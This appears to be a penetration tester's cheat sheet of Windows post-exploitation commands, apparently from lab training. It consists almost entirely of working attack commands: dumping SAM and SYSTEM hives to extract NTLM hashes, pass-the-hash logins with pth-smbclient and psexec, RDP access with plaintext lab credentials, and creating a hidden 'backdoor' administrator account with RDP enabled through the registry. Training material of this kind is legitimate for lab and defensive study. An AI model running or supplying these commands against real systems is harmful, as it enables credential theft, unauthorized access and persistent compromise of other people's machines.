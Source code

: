 reg save hklm\sam c:\sam
reg save hklm\system c:\system

samdump2 system sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c0e2874fb130015aec4070975e2c6071:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:d0c0896b73e0d1316aeccf93159d7ec0:::

fgdump.exe

pth-smbclient -p 4445 -U alice%aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE //127.0.0.1/c$


copied psexec.py to local folder and updated default port to the forwarded port.

python3 ./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE alice@127.0.0.1 cmd.exe

rdesktop -d xor.com -u daisy -p XorPasswordIsDead17 10.11.1.122 -r clipboard:CLIPBOARD

rdesktop -d xor.com -u daisy -p XorPasswordIsDead17 10.11.1.122 -r clipboard:CLIPBOARD -r disk:share=<path>

rdesktop 192.168.XXX.XX -u OFFSEC\\Allison -p <PASSWORD> -r disk:share=/tmp

xfreerdp --plugin rdpsnd --plugin rdpdr --data disk:home:/home -- -u cfsnspk03 10.129.3.4

xfreerdp /u:cfsnspk03 /v:10.129.3.4 /cert-ignore

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Enable RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

python /usr/share/doc/python3-impacket/examples/psexec.py alice:ThisIsTheUsersPassword01@10.11.1.20


